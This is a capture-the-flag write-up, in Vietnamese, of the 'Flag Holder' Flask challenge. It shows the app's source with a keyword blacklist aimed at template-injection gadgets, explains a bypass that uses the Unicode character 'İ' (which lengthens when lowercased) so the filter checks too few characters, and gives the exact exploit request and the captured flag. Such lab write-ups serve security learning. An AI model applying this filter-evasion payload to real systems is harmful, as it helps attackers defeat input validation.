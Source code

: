 # Flag Holder

![image-20230619140718231](./assets/image-20230619140718231.png)

> :warning:
>
> Hint 1: Server-side Template Injection liệu có khả thi ??? Hay còn một cách nào khác ????? 🤔🤔🤔🤔🤔 
>
> Hint 2: `if word in string.lower()[:MAX_LENGTH]:`

Giao diện trang web là một form điền template và variable tương ứng

![image-20230619141302970](./assets/image-20230619141302970.png)

Sau khi submit thì trả về một trang web render với template và variable đã điền

![image-20230619141343478](./assets/image-20230619141343478.png)

Challenge này cho mình source code ở `/source` (Ctrl + U ở trang đầu tiên là thấy)

```python
from flask import Flask, request, render_template_string, render_template, make_response
import os

app = Flask(__name__)
FLAG = os.getenv("FLAG") 
MAX_LENGTH = 20

def waf(string):
    blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
    for word in blacklist:
        if word in string.lower()[:MAX_LENGTH]:
            return False
    return True

@app.route('/')
def hello():
    return render_template("index.html")

@app.route("/render", methods = ["GET"])
def render():
    template = request.args.get("template")
    variable = request.args.get("variable")
    if len(template) == 0 or len(variable) == 0:
        return "Missing parameter required"
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH:
        return "Input too long"
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)

@app.route("/source", methods = ["GET", "POST"])
def source():
    response = make_response(open("./app.py", "r").read(), 200)
    response.mimetype = "text/plain"
    return response

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

Như trong source code đã cho thì mình thu thập được một vài thông tin, và mình dự đoán trang web này có lỗ hổng SSTI. 

Sau khi lấy dữ liệu từ các param thì chương trình có thực hiện một số bước kiểm tra

```python
	// kiểm tra độ dài > 0
	if len(template) == 0 or len(variable) == 0: 
        return "Missing parameter required"
    // đảm bảo độ dài của param <= 20
    if len(template) > MAX_LENGTH or len(variable) > MAX_LENGTH: 
        return "Input too long"
    // thực hiện kiểm tra qua hàm waf()
    if not waf(template) or not waf(variable):
        return "Try harder broooo =)))"
    // hàm waf()
    def waf(string):
        blacklist = ["{{", "_", "'", "\"", "[", "]", "|", "eval", "os", "system", "env", "import", "builtins", "class", "flag", "mro", "base", "config", "query", "request", "attr", "set", "glob", "py"]
        for word in blacklist:
            if word in string.lower()[:MAX_LENGTH]:
                return False
        return True
```

Có thể thấy trong hàm `waf()` đã blacklist kha khá các class và cả bao gồm chuỗi `flag` nữa. Mà độ dài của các param phải `0 < param <= 20` nên khá là khó để thực hiện SSTI

```python
    data = template.replace("{FLAG}", FLAG).replace("{variable}", variable)
    return render_template_string(data)
```

Sau khi kiểm tra đầu vào thì chương trình thực hiện replace `replace("{FLAG}", FLAG)` và `replace("{variable}", variable)`, nhưng mà `flag` đã bị blacklist rồi nên mình không thể render nó ra được

Mình đã mò một hồi khá lâu mà chỉ có thể trigger SSTI được như này thôi :). Vì độ dài này không đủ để cho mình thực hiện attack được :)

![image-20230619142533174](./assets/image-20230619142533174.png)

Sau khi Hint 1 được đưa ra thì mình đã bỏ qua trường hợp SSTI và chuyển hướng qua tìm bug khác ở trong bài này :D

Đọc kĩ từng dòng code và mình thấy dòng `if word in string.lower()[:MAX_LENGTH]:` là dòng có khả năng nhất thôi :DD. Liệu rằng... có một kí tự nào đó khi lower lại có độ dài > 1 hay không vì nó kiểm tra trong độ dài `[:20]`, trong trường hợp này nó sẽ bị tràn và khả năng không có kiểm tra được các kí tự ở cuối

Tìm kí tự này

```python
for i in range(10000):
    if len(chr(i).lower()) > 1:
        print(i)
// output: 304, kí tự này là: İ
```

URL encode và gửi request

```
GET /render?template=%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0%C4%B0{FLAG}&variable=longkd719 HTTP/1.1
Host: 103.163.25.143:20105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://103.163.25.143:20105/
Upgrade-Insecure-Requests: 1


```

Kết quả

![image-20230619143237535](./assets/image-20230619143237535.png)

`Flag: KMACTF{WAF_1s_s0_5tR0nG_BuT_pYth0n_1s_s0_H4rd}`
